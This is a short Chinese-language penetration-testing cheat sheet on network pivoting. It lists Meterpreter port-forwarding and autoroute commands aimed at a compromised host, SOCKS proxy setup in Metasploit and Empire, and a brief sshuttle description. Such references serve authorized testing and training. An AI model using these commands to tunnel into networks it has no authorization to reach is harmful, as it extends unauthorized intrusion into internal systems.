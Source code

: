 ```powershell
# Meterpreter列出活动端口转发
portfwd list 

# 将3389端口（RDP）转发到运行Meterpreter shell的被攻击机器上的3389端口
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# 将3389端口（RDP）转发到运行Meterpreter shell的被攻击机器上的3389端口
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter删除所有端口转发
portfwd flush 

或者

# 使用Meterpreter的autoroute脚本为指定的子网192.168.15.0添加路由
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks_proxy
set SRVPORT 9090
set VERSION 4a
# 或者
use auxiliary/server/socks4a     #（已弃用）


# Meterpreter列出所有活动路由
run autoroute -p 

route #Meterpreter查看受损主机可以访问的网络
# Meterpreter通过会话号为192.168.14.0/24添加路由
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter通过会话号删除192.168.14.0/24的路由
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter删除所有路由
route flush 
```

## Empire

```powershell
(Empire) > socksproxyserver
(Empire) > use module management/invoke_socksproxy
(Empire) > set remoteHost 10.10.10.10
(Empire) > run
```

## sshuttle

透明代理服务器，作为穷人的VPN工作。通过SSH转发。

* 不需要管理员权限。
* 适用于Linux和MacOS。
* 支持DNS隧道。
